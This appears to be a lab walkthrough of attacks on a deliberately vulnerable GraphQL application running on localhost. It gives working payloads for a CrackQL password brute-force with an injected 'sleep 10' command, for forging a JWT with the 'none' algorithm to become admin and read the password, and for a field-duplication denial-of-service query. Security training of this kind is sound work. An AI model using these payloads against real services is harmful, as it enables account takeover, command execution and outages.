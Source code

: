 ``` 
query{systemDiagnostics(username: "admin", password: {{password|str}}, cmd: "sleep 10") {}}

```
Place this in a arbitrary named file with extension graphql: `mypayload.graphql`
Pass it to CrackQL like:

```
python CrackQL.py -t http://localhost:5013/graphql -q mypayload.graphql -i sample-inputs/passwords.csv```

```

**GraphQL Interface**

There's an interface that allows to query GraphQL in a friendly way. 
Simply browse to `http://localhost:5013/graphiql`. If needed, set the `graphiql:disabled` cookie by switching disabled with enabled <=> `graphiql:enabled`


**JWT Token Forge**

This works because we can change the signing key to `none` and the server accepts that. Basically, the logic goes like this:
We change the algorithm to none => send it to the server => recognizes that type => lets it pass without verifiying the signature because it accepts jwt's without one.

To reproduce this, login as operator:

```
{"query":"mutation{login(username:\"operator\",password:\"password123\"){accessToken}}"}

```
Copy the accessToken (save it somewhere if you want).

Go to `token.dev`

Paste the token

Change the algorithm to `none`

Change user to `admin`

Send a request like this but replace the token with yours (don't forget to include a `.` at the end of the token).

```
{"query":"{me(token:\"<your_token_here>\"){id,username,password}}"}

```
Send the request, notice you are admin and you have the password.

**Field Duplication Attack**

This happens because there's no restraint to how many fields can be inside a query. This can stress the server, leading to a DoS

```
query {
  pastes {
    owner {
      pastes {
            ipAddr # 1
            ipAddr # 2
            ipAddr # 3
            ipAddr # 4
            ipAddr # 1000
          }
        }
      }
      
```
